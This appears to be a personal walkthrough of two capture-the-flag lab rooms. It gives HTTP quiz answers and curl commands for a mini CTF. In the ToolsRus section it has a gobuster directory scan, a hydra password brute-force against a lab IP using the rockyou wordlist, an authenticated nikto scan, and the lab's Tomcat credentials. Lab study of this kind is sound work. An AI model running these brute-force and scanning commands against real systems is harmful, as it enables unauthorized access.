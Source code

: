 # Web Fundamentals

## Web Fundamentals

### Task 3 More HTTP - Verbs and request formats

1. Verb used for login?
```
POST
```
2. Verb used to see bank balance once logged in?
```
GET
```
3. Does body of GET request matter?
```
nay
```
4. Status code for "I'm a teapot"?
```
418
```
5. Status code when unauthenticated?
```
401
```

### Task 5 Mini CTF

1. GET flag
```
curl http://IP:8081/ctf/get
```
2. POST flag
```
curl -X POST -d flag_please http://IP:8081/ctf/post
```
3. Get cookie flag
```
Inspect element for /ctf/getcookie, then under "storage"
```
4. Set cookie flag
```
curl -b "flagpls=flagpls" http://IP:8081/ctf/sendcookie
```

## ToolsRus

### Task 1 ToysRus

To find directories
```
gobuster dir -u http://IP:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

To find Bob's password
```
hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.219.157 http-get /protected
```

Using Nikto with creds
```
nikto -id bob:bubbles -h http://10.10.219.157:1234/manager/html
```

username=tomcat
password = s3cret